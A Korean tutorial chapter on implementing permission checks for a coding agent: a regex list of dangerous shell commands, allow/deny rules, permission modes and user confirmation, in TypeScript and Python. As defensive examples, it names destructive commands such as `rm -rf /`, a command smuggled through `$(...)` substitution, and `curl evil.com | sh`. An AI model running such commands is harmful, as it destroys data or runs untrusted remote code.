

# 6. 권한과 보안

## 챕터 목표

완전한 권한 보안 메커니즘을 구현합니다: 위험 명령 감지 -> 설정 가능한 허용/거부 권한 규칙 -> 통합 권한 확인 -> 세션 수준 화이트리스트 -> 사용자 확인 다이얼로그. "하드코딩된 규칙"에서 "사용자 정의 규칙"으로, 에이전트가 안전한 작업을 자동 승인하고 위험한 작업을 자동 차단하도록 합니다 -- 매번 수동으로 확인할 필요 없이.



핵심 접근법: **다층 확인, 거부 우선**. 권한 모드(전역 정책) -> 설정 파일 규칙(1계층) -> 내장 위험 패턴 감지(2계층) -> 세션 화이트리스트 -> 사용자 확인.

## Claude Code의 구현 방식

Claude Code는 실제 환경에서 코드를 실행합니다 -- 파일 읽기/쓰기, 셸 실행, Git 조작. 적절한 보안 메커니즘 없이는 `rm -rf /` 하나로 재앙이 발생할 수 있습니다. 그래서 **심층 방어(Defense in Depth)** 를 채택합니다: 7개의 독립적인 보안 계층으로, 한 계층이 우회되더라도 나머지는 효과를 유지합니다.

### 심층 방어의 7계층

| 계층 | 메커니즘 | 핵심 목적 |
|------|----------|-----------|
| 1 | 신뢰 다이얼로그 | 디렉토리 진입 시 신뢰 확인, 악성 프로젝트 훅 자동 실행 방지 |
| 2 | 권한 모드 | 전역 정책 스위치 (default/plan/acceptEdits/bypassPermissions/dontAsk) |
| 3 | 권한 규칙 매칭 | allow/deny/ask 규칙, 8개 소스, 기업 정책에서 세션 수준까지 우선순위 |
| 4 | Bash AST 분석 | tree-sitter로 명령을 AST로 파싱, 23개 정적 안전 확인, FAIL-CLOSED 원칙 |
| 5 | 도구 수준 검증 | validateInput + checkPermissions, 위험 파일 경로 및 경로 경계 보호 |
| 6 | 샌드박스 격리 | macOS Seatbelt / Linux 네임스페이스, 파일시스템 및 네트워크 접근 범위 제한 |
| 7 | 사용자 확인 | 인터랙티브 다이얼로그 + Hook + ML 분류기 경쟁, 첫 번째 결정이 승리 |

몇 가지 이해할 가치 있는 설계 세부 사항:

**`bypassPermissions` (--yolo)는 실제로 모든 것을 우회하지 않습니다**. 소스 코드 확인 순서는: 먼저 거부 규칙 확인(일치하면 즉시 거부) -> 우회 면역 경로 확인(`.git/`, `.claude/` 등은 여전히 확인 필요) -> 그때만 일반 확인 건너뜀. 관리자는 거부 규칙을 통해 `--yolo`를 제한할 수 있습니다.

**4계층이 정규식 대신 AST를 사용하는 이유**: 셸 구문은 복잡합니다. `echo hello$(rm -rf /)` 같은 명령에서 정규식은 `echo hello`를 보지만 실제로 실행되는 것은 `rm -rf /`입니다. tree-sitter는 실제로 AST를 파싱하며, 이해하지 못하는 구조(명령 치환, 변수 확장, 제어 흐름 등)는 모두 `too-complex`로 표시하여 사용자 확인을 요구합니다.

**8개 규칙 소스와 엄격한 우선순위**: 기업 MDM 정책(재정의 불가) > 사용자 전역 > 프로젝트 수준(저장소 커밋) > 로컬 프로젝트(미커밋) > CLI 인수 > 런타임 인수 > 명령 정의 > 세션 수준("항상 허용" 클릭으로 생성됨). 낮은 우선순위가 높은 우선순위를 재정의할 수 없습니다 -- 기업 정책이 거부한 작업은 사용자 수준에서 허용할 수 없습니다.

**3가지 매칭 유형**: 정확 매칭(`Bash(git status)`), 접두사 매칭(`Bash(npm:*)`), 와일드카드 매칭(`Bash(git * --no-verify)`). 와일드카드가 공백 + `*`로 끝나면 꼬리가 선택적이 되어 접두사 구문과 일관된 동작을 유지합니다.

**7계층의 경쟁 메커니즘**: UI 다이얼로그, PermissionRequest Hook, ML 분류기가 동시에 시작됩니다. `createResolveOnce` 가드는 첫 번째 결정만 적용되도록 보장합니다. 사용자가 다이얼로그를 건드리면 Hook과 분류기의 결과는 무시됩니다 -- 인간의 의도가 항상 우선입니다. 다이얼로그에는 실수 클릭을 방지하는 200ms 유예 기간도 있습니다.

**거부 추적**: 연속 3회 거부 시 다운그레이드(자동 모드가 인터랙티브 확인으로 폴백); 총 20회 거부 시 에이전트 실행 중단 -- 모델이 거부된 작업을 반복 시도하는 루프에 빠지는 것을 방지합니다.

## 우리의 구현

7계층을 **4계층**으로 단순화합니다: 위험 명령 감지, 권한 규칙 시스템, 통합 권한 확인, 세션 수준 화이트리스트. 8개 규칙 소스는 **2개**로 단순화(사용자 수준 + 프로젝트 수준), 3가지 규칙 동작은 **2개**로 단순화(허용 + 거부).

### 1. 위험 명령 감지

16개의 정규식 패턴이 가장 일반적인 파괴적 작업을 커버합니다(Unix 10개 + Windows 6개):

<!-- tabs:start -->
#### **TypeScript**
```typescript
// tools.ts
const DANGEROUS_PATTERNS = [
  /\brm\s/,
  /\bgit\s+(push|reset|clean|checkout\s+\.)/,
  /\bsudo\b/,
  /\bmkfs\b/,
  /\bdd\s/,
  />\s*\/dev\//,
  /\bkill\b/,
  /\bpkill\b/,
  /\breboot\b/,
  /\bshutdown\b/,
  // Windows
  /\bdel\s/i,
  /\brmdir\s/i,
  /\bformat\s/i,
  /\btaskkill\s/i,
  /\bRemove-Item\s/i,
  /\bStop-Process\s/i,
];

export function isDangerous(command: string): boolean {
  return DANGEROUS_PATTERNS.some((p) => p.test(command));
}
```
#### **Python**
```python
# tools.py
DANGEROUS_PATTERNS = [
    re.compile(r"\brm\s"),
    re.compile(r"\bgit\s+(push|reset|clean|checkout\s+\.)"),
    re.compile(r"\bsudo\b"),
    re.compile(r"\bmkfs\b"),
    re.compile(r"\bdd\s"),
    re.compile(r">\s*/dev/"),
    re.compile(r"\bkill\b"),
    re.compile(r"\bpkill\b"),
    re.compile(r"\breboot\b"),
    re.compile(r"\bshutdown\b"),
    re.compile(r"\bdel\s", re.IGNORECASE),
    re.compile(r"\brmdir\s", re.IGNORECASE),
    re.compile(r"\bformat\s", re.IGNORECASE),
    re.compile(r"\btaskkill\s", re.IGNORECASE),
    re.compile(r"\bRemove-Item\s", re.IGNORECASE),
    re.compile(r"\bStop-Process\s", re.IGNORECASE),
]

def is_dangerous(command: str) -> bool:
    return any(p.search(command) for p in DANGEROUS_PATTERNS)
```
<!-- tabs:end -->

Windows 패턴은 `i` 플래그를 사용합니다 -- Windows 명령은 본질적으로 대소문자를 구분하지 않기 때문입니다.

한계는 분명합니다: `find / -delete`나 `curl evil.com | sh` 같은 위험 명령은 감지되지 않습니다. 이것이 바로 Claude Code가 AST 분석을 선택한 이유입니다 -- 하지만 최소한의 구현으로 16개 정규식 패턴은 가장 일반적인 경우를 커버합니다.

### 2. 권한 규칙 시스템

내장 위험 감지 외에도 설정 파일을 통해 사전 정의된 허용/거부 규칙을 지원합니다. 에이전트가 안전한 작업을 자동 승인하고 위험한 작업을 자동 차단할 수 있습니다.

#### 규칙 파싱 (parseRule)

문자열 규칙을 구조화된 데이터로 파싱합니다. `run_shell(npm test*)` -> `{tool: "run_shell", pattern: "npm test*"}`, 단순 도구 이름 -> `{tool: "read_file", pattern: null}`.

<!-- tabs:start -->
#### **TypeScript**
```typescript
// tools.ts

interface ParsedRule {
  tool: string;
  pattern: string | null;  // null은 이 도구의 모든 호출을 매칭
}

function parseRule(rule: string): ParsedRule {
  const match = rule.match(/^([a-z_]+)\((.+)\)$/);
  if (match) {
    return { tool: match[1], pattern: match[2] };
  }
  return { tool: rule, pattern: null };
}
```
#### **Python**
```python
# tools.py

def _parse_rule(rule: str) -> dict:
    m = re.match(r"^([a-z_]+)\((.+)\)$", rule)
    if m:
        return {"tool": m.group(1), "pattern": m.group(2)}
    return {"tool": rule, "pattern": None}
```
<!-- tabs:end -->

#### 규칙 로드 (loadPermissionRules)

두 파일의 규칙은 같은 배열에 **추가**됩니다(덮어쓰지 않음). 따라서 사용자 수준과 프로젝트 수준 규칙이 공존합니다. 결과는 메모리에 캐시됩니다 -- 세션당 수십에서 수백 번의 도구 호출이 있으므로 매번 디스크에서 읽을 필요가 없습니다.

<!-- tabs:start -->
#### **TypeScript**
```typescript
// tools.ts

let cachedRules: PermissionRules | null = null;

export function loadPermissionRules(): PermissionRules {
  if (cachedRules) return cachedRules;

  const allow: ParsedRule[] = [];
  const deny: ParsedRule[] = [];

  const userSettings = loadSettings(join(homedir(), ".claude", "settings.json"));
  const projectSettings = loadSettings(join(process.cwd(), ".claude", "settings.json"));

  for (const settings of [userSettings, projectSettings]) {
    if (!settings?.permissions) continue;
    if (Array.isArray(settings.permissions.allow)) {
      for (const r of settings.permissions.allow) allow.push(parseRule(r));
    }
    if (Array.isArray(settings.permissions.deny)) {
      for (const r of settings.permissions.deny) deny.push(parseRule(r));
    }
  }

  cachedRules = { allow, deny };
  return cachedRules;
}
```
#### **Python**
```python
# tools.py

_cached_rules: dict | None = None

def load_permission_rules() -> dict:
    global _cached_rules
    if _cached_rules is not None:
        return _cached_rules

    allow: list[dict] = []
    deny: list[dict] = []

    user_settings = _load_settings(Path.home() / ".claude" / "settings.json")
    project_settings = _load_settings(Path.cwd() / ".claude" / "settings.json")

    for settings in [user_settings, project_settings]:
        if not settings or "permissions" not in settings:
            continue
        perms = settings["permissions"]
        for r in perms.get("allow", []):
            allow.append(_parse_rule(r))
        for r in perms.get("deny", []):
            deny.append(_parse_rule(r))

    _cached_rules = {"allow": allow, "deny": deny}
    return _cached_rules
```
<!-- tabs:end -->

#### 규칙 매칭 (matchesRule)

3단계 확인: 도구 이름이 일치하지 않으면 건너뜀 -> 패턴이 없으면 도구 이름 매칭으로 충분 -> 패턴이 있으면 `command` 또는 `file_path`에 대해 매칭. 두 가지 매칭 방법 지원: 끝에 `*`가 있으면 접두사 매칭, 아니면 정확 매칭.

<!-- tabs:start -->
#### **TypeScript**
```typescript
// tools.ts

function matchesRule(
  rule: ParsedRule,
  toolName: string,
  input: Record<string, any>
): boolean {
  if (rule.tool !== toolName) return false;
  if (!rule.pattern) return true;

  let value = "";
  if (toolName === "run_shell") value = input.command || "";
  else if (input.file_path) value = input.file_path;
  else return true;

  const pattern = rule.pattern;
  if (pattern.endsWith("*")) {
    return value.startsWith(pattern.slice(0, -1));
  }
  return value === pattern;
}
```
#### **Python**
```python
# tools.py

def _matches_rule(rule: dict, tool_name: str, inp: dict) -> bool:
    if rule["tool"] != tool_name:
        return False
    if rule["pattern"] is None:
        return True

    value = ""
    if tool_name == "run_shell":
        value = inp.get("command", "")
    elif "file_path" in inp:
        value = inp["file_path"]
    else:
        return True

    pattern = rule["pattern"]
    if pattern.endswith("*"):
        return value.startswith(pattern[:-1])
    return value == pattern
```
<!-- tabs:end -->

참고: `run_shell(np*)`는 `npm`과 `npx` 모두 매칭됩니다 -- 규칙 작성 시 접두사 정밀도에 주의하세요.

#### 규칙 확인 (checkPermissionRules)

반환값은 3가지 상태: `"allow"` / `"deny"` / `null` (의견 없음, 다음 계층으로 전달). 거부 규칙이 허용 규칙보다 먼저 순회됩니다. 따라서 `allow: ["run_shell"]`을 작성했더라도 `deny: ["run_shell(rm -rf*)"]`는 여전히 적용됩니다 -- "먼저 열고 나서 제한"하는 규칙 작성 방식이 이 때문에 가능합니다.

<!-- tabs:start -->
#### **TypeScript**
```typescript
// tools.ts

function checkPermissionRules(
  toolName: string,
  input: Record<string, any>
): "allow" | "deny" | null {
  const rules = loadPermissionRules();

  for (const rule of rules.deny) {
    if (matchesRule(rule, toolName, input)) return "deny";
  }
  for (const rule of rules.allow) {
    if (matchesRule(rule, toolName, input)) return "allow";
  }
  return null;
}
```
#### **Python**
```python
# tools.py

def _check_permission_rules(tool_name: str, inp: dict) -> str | None:
    rules = load_permission_rules()

    for rule in rules["deny"]:
        if _matches_rule(rule, tool_name, inp):
            return "deny"
    for rule in rules["allow"]:
        if _matches_rule(rule, tool_name, inp):
            return "allow"
    return None
```
<!-- tabs:end -->

### 3. 통합 권한 확인

`checkPermission`은 권한 시스템의 통합 진입점으로, 권한 모드, 설정 파일 규칙, 내장 위험 감지를 통합합니다. `{action, message}`를 반환하며, action은 세 가지 값을 가집니다: `allow`, `deny`, `confirm`.

우선순위: **거부 규칙 > 허용 규칙 > 모드 로직 > 내장 위험 감지 > 기본 허용**.

<!-- tabs:start -->
#### **TypeScript**
```typescript
// tools.ts -- checkPermission

export function checkPermission(
  toolName: string,
  input: Record<string, any>,
  mode: PermissionMode = "default",
  planFilePath?: string
): { action: "allow" | "deny" | "confirm"; message?: string } {
  if (mode === "bypassPermissions") return { action: "allow" };

  // 1계층: 설정 파일 규칙 (거부 우선)
  const ruleResult = checkPermissionRules(toolName, input);
  if (ruleResult === "deny") {
    return { action: "deny", message: `Denied by permission rule for ${toolName}` };
  }
  if (ruleResult === "allow") {
    return { action: "allow" };
  }

  // 읽기 도구는 항상 안전
  if (READ_TOOLS.has(toolName)) return { action: "allow" };

  // 권한 모드 확인
  if (mode === "plan") {
    if (EDIT_TOOLS.has(toolName)) {
      const filePath = input.file_path || input.path;
      if (planFilePath && filePath === planFilePath) return { action: "allow" };
      return { action: "deny", message: `Blocked in plan mode: ${toolName}` };
    }
    if (toolName === "run_shell") {
      return { action: "deny", message: "Shell commands blocked in plan mode" };
    }
  }

  if (mode === "acceptEdits" && EDIT_TOOLS.has(toolName)) {
    return { action: "allow" };
  }

  // 2계층: 내장 위험 패턴 확인
  let needsConfirm = false;
  let confirmMessage = "";

  if (toolName === "run_shell" && isDangerous(input.command)) {
    needsConfirm = true;
    confirmMessage = input.command;
  } else if (toolName === "write_file" && !existsSync(input.file_path)) {
    needsConfirm = true;
    confirmMessage = `write new file: ${input.file_path}`;
  } else if (toolName === "edit_file" && !existsSync(input.file_path)) {
    needsConfirm = true;
    confirmMessage = `edit non-existent file: ${input.file_path}`;
  }

  if (needsConfirm) {
    if (mode === "dontAsk") {
      return { action: "deny", message: `Auto-denied (dontAsk mode): ${confirmMessage}` };
    }
    return { action: "confirm", message: confirmMessage };
  }

  return { action: "allow" };
}
```
#### **Python**
```python
# tools.py -- check_permission

def check_permission(
    tool_name: str,
    inp: dict,
    mode: str = "default",
    plan_file_path: str | None = None,
) -> dict:
    """Returns {"action": "allow"|"deny"|"confirm", "message": ...}"""
    if mode == "bypassPermissions":
        return {"action": "allow"}

    # 1계층: 설정 파일 규칙 (거부 우선)
    rule_result = _check_permission_rules(tool_name, inp)
    if rule_result == "deny":
        return {"action": "deny", "message": f"Denied by permission rule for {tool_name}"}
    if rule_result == "allow":
        return {"action": "allow"}

    # 읽기 도구는 항상 안전
    if tool_name in READ_TOOLS:
        return {"action": "allow"}

    # 권한 모드 확인
    if mode == "plan":
        if tool_name in EDIT_TOOLS:
            file_path = inp.get("file_path") or inp.get("path")
            if plan_file_path and file_path == plan_file_path:
                return {"action": "allow"}
            return {"action": "deny", "message": f"Blocked in plan mode: {tool_name}"}
        if tool_name == "run_shell":
            return {"action": "deny", "message": "Shell commands blocked in plan mode"}

    if mode == "acceptEdits" and tool_name in EDIT_TOOLS:
        return {"action": "allow"}

    # 2계층: 내장 위험 패턴 확인
    needs_confirm = False
    confirm_message = ""

    if tool_name == "run_shell" and is_dangerous(inp.get("command", "")):
        needs_confirm = True
        confirm_message = inp.get("command", "")
    elif tool_name == "write_file" and not Path(inp.get("file_path", "")).exists():
        needs_confirm = True
        confirm_message = f"write new file: {inp.get('file_path', '')}"
    elif tool_name == "edit_file" and not Path(inp.get("file_path", "")).exists():
        needs_confirm = True
        confirm_message = f"edit non-existent file: {inp.get('file_path', '')}"

    if needs_confirm:
        if mode == "dontAsk":
            return {"action": "deny", "message": f"Auto-denied (dontAsk mode): {confirm_message}"}
        return {"action": "confirm", "message": confirm_message}

    return {"action": "allow"}
```
<!-- tabs:end -->

확인을 트리거하는 조건: `run_shell` + 위험 명령, `write_file` / `edit_file` + 대상 없음. `read_file`, `list_files`, `grep_search`는 항상 안전합니다. 1계층이 의견이 없을 때 2계층으로 넘어가며, 두 계층 모두 차단하지 않으면 기본 허용입니다.

### 4. 세션 수준 화이트리스트

에이전트 루프에서 `confirmedPaths` Set이 승인된 작업을 기억합니다:

<!-- tabs:start -->
#### **TypeScript**
```typescript
// agent.ts

private confirmedPaths: Set<string> = new Set();

const perm = checkPermission(toolUse.name, input, this.permissionMode, this.planFilePath);

if (perm.action === "deny") {
  printInfo(`Denied: ${perm.message}`);
  toolResults.push({
    type: "tool_result",
    tool_use_id: toolUse.id,
    content: `Action denied: ${perm.message}`,
  });
  continue;
}

if (perm.action === "confirm" && perm.message && !this.confirmedPaths.has(perm.message)) {
  const confirmed = await this.confirmDangerous(perm.message);
  if (!confirmed) {
    toolResults.push({
      type: "tool_result",
      tool_use_id: toolUse.id,
      content: "User denied this action.",
    });
    continue;
  }
  this.confirmedPaths.add(perm.message);
}
```
#### **Python**
```python
# agent.py

self._confirmed_paths: set[str] = set()

perm = check_permission(tu.name, inp, self.permission_mode, self._plan_file_path)

if perm["action"] == "deny":
    print_info(f"Denied: {perm.get('message', '')}")
    tool_results.append({"type": "tool_result", "tool_use_id": tu.id,
                         "content": f"Action denied: {perm.get('message', '')}"})
    continue

if perm["action"] == "confirm" and perm.get("message") and perm["message"] not in self._confirmed_paths:
    confirmed = await self._confirm_dangerous(perm["message"])
    if not confirmed:
        tool_results.append({"type": "tool_result", "tool_use_id": tu.id,
                             "content": "User denied this action."})
        continue
    self._confirmed_paths.add(perm["message"])
```
<!-- tabs:end -->

거부 시 오류를 던지거나 루프를 중단하는 대신 `"User denied this action."`을 도구 결과로 반환합니다 -- LLM이 이를 보고 전략을 조정합니다. 이는 중요한 설계 선택입니다. 거부 규칙이 일치하면 다이얼로그를 표시하지 않고 거부 메시지가 모델로 직접 돌아갑니다. 확인은 세션 화이트리스트를 거칩니다 -- 사용자가 한 번 확인하면 같은 작업에 대해 다시 묻지 않습니다.

### 5. 확인 다이얼로그

<!-- tabs:start -->
#### **TypeScript**
```typescript
// agent.ts
private async confirmDangerous(command: string): Promise<boolean> {
  printConfirmation(command);
  const rl = readline.createInterface({ input: process.stdin, output: process.stdout });
  return new Promise((resolve) => {
    rl.question("  Allow? (y/n): ", (answer) => {
      rl.close();
      resolve(answer.toLowerCase().startsWith("y"));
    });
  });
}
```
#### **Python**
```python
# agent.py
async def _confirm_dangerous(self, command: str) -> bool:
    print_confirmation(command)
    if self.confirm_fn:
        return await self.confirm_fn(command)
    try:
        answer = input("  Allow? (y/n): ")
        return answer.lower().startswith("y")
    except EOFError:
        return False
```
<!-- tabs:end -->

### 5가지 권한 모드

| 모드 | 읽기 도구 | 편집 도구 | 셸(안전) | 셸(위험) | 사용 사례 |
|------|-----------|-----------|----------|----------|-----------|
| `default` | ✅ | ⚠️ 확인(새 파일) | ✅ | ⚠️ 확인 | 일상 사용 |
| `plan` | ✅ | ❌ 거부 | ❌ 거부 | ❌ 거부 | 계획만, 실행 없음 |
| `acceptEdits` | ✅ | ✅ | ✅ | ⚠️ 확인 | 편집 신뢰 |
| `bypassPermissions` | ✅ | ✅ | ✅ | ✅ | --yolo |
| `dontAsk` | ✅ | ❌ 거부 | ✅ | ❌ 거부 | CI/비인터랙티브 |

```bash
mini-claude --yolo "..."           # bypassPermissions
mini-claude --plan "..."           # plan 모드
mini-claude --accept-edits "..."   # acceptEdits
mini-claude --dont-ask "..."       # dontAsk (CI 환경)
```

`plan` 모드에서 모델은 `enter_plan_mode` / `exit_plan_mode` 도구를 통해 동적으로 전환할 수도 있습니다. 시스템은 플랜 파일 경로(`~/.claude/plans/plan-<sessionId>.md`)를 유일하게 쓰기 가능한 파일로 생성합니다.

### 설정 파일 형식

```json
// ~/.claude/settings.json (사용자 수준, 전역 적용)
{
  "permissions": {
    "allow": [
      "read_file",
      "list_files",
      "grep_search",
      "run_shell(npm test*)",
      "run_shell(git status)",
      "run_shell(git diff*)"
    ],
    "deny": [
      "run_shell(rm -rf*)",
      "run_shell(git push --force*)"
    ]
  }
}
```

```json
// .claude/settings.json (프로젝트 수준, 저장소에 커밋)
{
  "permissions": {
    "allow": ["run_shell(npm run build)"],
    "deny": ["run_shell(curl*)"]
  }
}
```

두 파일의 규칙이 병합되어 함께 적용됩니다. 규칙 형식:
- `"read_file"` -- 이 도구의 모든 호출을 매칭
- `"run_shell(npm test*)"` -- 명령이 `npm test`로 시작하는 `run_shell` 호출을 매칭

**허용보다 거부가 우선인 이유**: 이는 표준 보안 시스템 설계입니다. 허용이 우선이라면 `allow: ["run_shell"]`을 작성하면 거부로 위험한 하위 명령을 제외할 수 없게 됩니다. 거부 우선 방식으로 "먼저 열고 나서 제한"하는 설정 방식이 가능합니다:

```json
{
  "permissions": {
    "allow": ["run_shell(git *)"],
    "deny": ["run_shell(git push --force*)"]
  }
}
```

**ask 규칙이 없는 이유**: Claude Code의 ask는 bypassPermissions에 안전 밸브를 설정하기 위한 것입니다. 우리의 `--yolo` 의미는 "완전 신뢰" -- ask 규칙 추가는 모순이 됩니다. 의무적 확인이 필요한 작업은 단순히 허용 목록에 넣지 않으면 됩니다 -- 자연스럽게 2계층의 내장 확인으로 넘어갑니다.

## Claude Code와의 격차 분석

| 차원 | Claude Code | mini-claude |
|------|------------|-------------|
| 방어 계층 | 7계층 | 4계층 (모드 + 규칙 + 감지 + 확인) |
| 명령 분석 | AST 파싱 (23개 확인) | 정규식 매칭 (16개 패턴) |
| 권한 규칙 소스 | 8개 소스, 우선순위 있음 | 2개 소스 (사용자 + 프로젝트) |
| 규칙 동작 | allow / deny / ask | allow / deny |
| 매칭 방법 | 정확 / 접두사 / 와일드카드 | 정확 / 끝 와일드카드 |
| 화이트리스트 | 영속 + 세션 수준 | 세션 수준 Set |
| 샌드박스 | macOS Seatbelt / Linux 네임스페이스 | 없음 |
| 우회 면역 경로 | .git/, .ssh/ 등 확인 필요 | 없음 |
| 거부 추적 | 3/20 임계값 다운그레이드 | 없음 |

핵심 아키텍처는 일치합니다 -- 5가지 권한 모드 + 설정 가능한 규칙 + 내장 감지, 명확한 계층화. "하드코딩된 규칙"에서 "사용자 정의 규칙"으로 나아가는 것이 개인 도구에서 팀 도구로 가는 핵심 단계입니다.

---

> **다음 챕터**: 에이전트 대화는 점점 길어지고 컨텍스트 윈도우가 채워집니다 -- 4계층 압축 파이프라인이 사실상 무한한 메모리를 제공합니다.
